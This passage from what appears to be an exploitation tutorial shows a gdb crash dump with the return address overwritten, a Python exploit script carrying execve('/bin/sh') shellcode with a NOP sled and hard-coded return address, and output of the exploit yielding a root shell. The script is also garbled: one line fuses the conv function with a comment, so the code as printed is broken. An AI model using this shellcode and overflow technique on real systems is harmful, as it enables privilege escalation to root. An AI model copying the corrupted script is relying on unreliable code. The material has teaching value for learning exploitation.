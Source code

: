 ```
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
Above output shows that attacker gets control over return address. Return address is located at offset (0xac) from ‘buf’. With these informations, lets write an exploit program to achieve arbitrary code execution.

Exploit Code:
```python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"

ret_addr = 0xbffff218

#endianess conversion
def conv(num):
 return struct.pack("<I",numturn Address + NOP's + Shellcode + Junk
buf = "A" * 172
buf += conv(ret_addr)
buf += "\x90" * 30
buf += scode
buf += "A" * 22

print "Calling vulnerable program"
call(["./vuln", buf])
```

Executing above exploit program gives us root shell as shown below:
```
$ python exp.py 
Calling vulnerable program
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

Off-by-one looks like a silly bug and its weird that such small mistake by developer could lead to arbitrary code execution. Does off-by-one bug always lead to arbitrary code execution?


[//]: <> (文章所涉及到的技术点的链接)
[//]: <> (题目)
[//]: <> (内容)